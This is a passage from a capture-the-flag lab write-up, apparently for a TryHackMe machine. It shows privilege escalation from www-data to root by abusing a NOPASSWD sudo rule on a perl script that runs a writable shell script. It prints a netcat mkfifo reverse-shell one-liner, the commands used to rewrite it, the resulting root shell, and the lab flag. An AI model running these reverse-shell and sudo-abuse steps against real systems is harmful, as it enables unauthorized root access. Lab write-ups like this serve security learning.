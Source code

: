 
-----
**Privilege Escalation**

The user www-data has root privileges to run perl and run a script called backup. pl
```
meterpreter > shell
Process 2899 created.
Channel 2 created.
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
-----
**backup. pl**

The backup. pl file is a perl script that executes a shell script
```
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

```
-----
**copy. sh**

The copy. sh script creates a reverse shell
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

-----
**Root Reverse Shell**

I replaced the IP address in the copy .sh script with my IP (tun0) and replaced the contents of the copy. sh script. After this I ran netcat. Once I ran the the backup .pl script with the sudo command a new reverse shell is created as a root user. I can now read the root.txt flag under the root directory
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.39 5554 >/tmp/f" > /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.39 5554 >/tmp/f
sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory

nc -nvlp 5554                                            
listening on [any] 5554 ...
connect to [10.13.0.39] from (UNKNOWN) [10.10.198.128] 45002
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}



```

